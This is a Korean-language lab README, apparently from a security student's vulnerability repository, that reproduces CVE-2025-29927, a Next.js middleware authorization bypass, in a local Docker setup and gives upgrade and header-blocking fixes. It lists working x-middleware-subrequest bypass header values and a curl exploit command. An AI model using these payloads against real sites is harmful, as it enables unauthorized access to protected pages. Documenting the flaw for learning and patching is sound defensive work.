 # Next.js Middleware Authorization Bypass (CVE-2025-29927)
> 화이트햇스쿨 3기 17반 박민영</br>
> 깃허브 링크 (https://github.com/minyoung13/kr-vulhub) </br>

## 1. Next.js 미들웨어 인증 우회 취약점이란?
이 취약점은 Next.js 웹 프레임워크에서 발생하는 보안 취약점으로, 공격자가 미들웨어 기반의 인증 절차를 우회하여 시스템에 접근할 수 있게 한다.
공격자는 특정 값을 가진 `x-middleware-subrequest` 헤더를 추가함으로써 미들웨어를 우회할 수 있으며, 이를 통해 인증되지 않은 사용자가 인증이 필요한 페이지에 무단으로 접속하여 공격할 수 있다. 

### 공격 예시
프레임워크의 버전에 따라 아래와 같은 값을 요청에 추가하면 미들웨어를 우회할 수 있다.</br>
`x-middleware-subrequest: pages/_middleware`</br>
`x-middleware-subrequest: middleware`</br>
`x-middleware-subrequest: src/middleware`</br>
`x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware`</br>

## 2. 취약한 환경 구성
1. `docker compose up -d` 명령어로 Next.js 15.2.2 버전의 컨테이너를 시작한다.
![image](https://github.com/user-attachments/assets/cb593947-95c8-409a-a8fe-14a060a002b9)

2. `docker ps` 명령어로 실행 중인 컨테이너 목록을 확인한다.
![image](https://github.com/user-attachments/assets/3a299e89-c961-4c5e-95dd-bc635b6f3285)

3. 애플리케이션이 시작되면, `http://localhost:3000` 주소를 방문할 때 로그인 페이지로 리디렉션된다.</br>
![image](https://github.com/user-attachments/assets/3c800e3f-83be-4bee-bdbb-ad36c1a634d1)

 `admin/password`를 입력하여 로그인하면 대시보드에 접근할 수 있다.
   ![image](https://github.com/user-attachments/assets/a1c21614-a455-49cc-b57d-417ff6902541)
   
## 3. 취약점 재현
- 인증 과정 없이 대시보드에 접근하려고 하면 로그인 페이지로 리디렉션된다.

```bash
curl -i http://localhost:3000
```

![image](https://github.com/user-attachments/assets/d3cd332d-90de-4321-82cb-0ea673eef2a9)

- http 요청에 `x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware` 값을 추가하면 미들웨어를 우회하여, 인증 없이 대시보드에 접근할 수 있다.

```bash
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://localhost:3000
```

  ![image](https://github.com/user-attachments/assets/5708f8fc-7299-4806-aeb0-8f9a093c769f)

## 4. 취약점 대처 방안
해당 취약점이 수정된 버전으로 업그레이드하여 사용하여야 한다.
- Next.js 15.x → 15.2.3
- Next.js 14.x → 14.2.25
  
업그레이드하지 못하거나 아래의 버전의 경우 `x-middleware-subrequest` 헤더가 포함된 외부 요청이 애플리케이션에 도달하지 못하도록 해당 헤더를 제거하거나 차단하도록 구성하여야 한다.
- Next.js 11.1.4~13.5.6 

## 5. 참고자료
[vulhub/next.js/CVE-2025-29927(영어)
](https://github.com/vulhub/vulhub/tree/master/next.js/CVE-2025-29927/README.md)</br>
[vulhub/next.js/CVE-2025-29927(중국어)](https://github.com/vulhub/vulhub/tree/master/next.js/CVE-2025-29927/README.zh-cn.md)</br>
[CVE-2025-29927: Next.js Middleware Authorization Bypass - Technical Analysis](https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass)</br>
[Next.js and the corrupt middleware: the authorizing artifact](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)

